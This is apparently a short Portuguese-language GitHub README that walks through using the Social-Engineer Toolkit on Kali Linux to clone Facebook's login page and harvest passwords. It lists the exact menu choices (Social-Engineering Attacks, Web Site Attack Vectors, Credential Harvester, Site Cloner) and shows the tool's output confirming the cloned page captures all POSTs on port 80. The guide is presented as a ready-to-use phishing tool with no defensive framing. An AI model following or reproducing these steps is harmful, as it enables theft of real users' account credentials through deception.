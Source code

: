 # Phishing para captura de senhas do Facebook
Ferramenta para capturar dados com a utilização de Engenharia Social utilizando Phishing

## Ferramentas Necessárias 
- Kali Linux
  ```
  https://www.kali.org/get-kali/#kali-platforms
  ```
- Kit de ferramentas de configuração
  ```
  sudo apt-get update && sudo apt-get upgrade && sudo apt-get dist-upgrade 
  ```
## Configurando o Phishing no Kali Linux
- Acesso root:sudo su
- Iniciando o setoolkit no terminal: setoolkit

## Passo a Passo
1- Tipo de ataque: *Social-Engineering Attacks*

2- Vetor de ataque:Web Site Attack Vectors

3- Método de ataque:Credential Harvester Attack Method 

4- Método de ataque:Site Cloner

5- Obtendo o endereço da máquina:ifconfig

6- URL para clonar: http://www.facebook.com
 
 Criando servidor...
   ```
   [*] Cloning the website: https://login.facebook.com/login.php           
   [*] This could take a little bit...                                     
  
   The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.        
   [*] The Social-Engineer Toolkit Credential Harvester Attack
   [*] Credential Harvester is running on port 80                          
   [*] Information will be displayed to you as it arrives below:
  ```
## Site criado no IP utilizado

- Exemplo 192.168.1.0
```
  set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.10]:
```
Utilize com cuidado os resultados retornam no Terminal




